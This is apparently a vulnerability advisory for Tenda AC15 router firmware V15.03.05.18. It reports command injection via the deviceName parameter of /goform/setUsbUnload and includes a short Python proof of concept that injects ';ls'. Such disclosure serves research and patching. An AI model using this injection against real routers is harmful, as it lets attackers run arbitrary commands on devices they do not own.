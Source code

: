 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2710.html

## Affected version

AC15 V15.03.05.18

## Vulnerability details

The Tenda AC15 V15.03.05.18 firmware, we discovered a command injection vulnerablility in the `deviceName` parameter and the `v3` varable is directly passed to a `doSystemCmd` function, causing an arbitrary command execution. The user-provided `deviceName` can trigger this security vulnerability.

![image-20240305231546129](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305231546129.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/setUsbUnload"
payload = ";ls"

data = {"deviceName": payload}
response = requests.post(url, data=data)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314212024903.png)
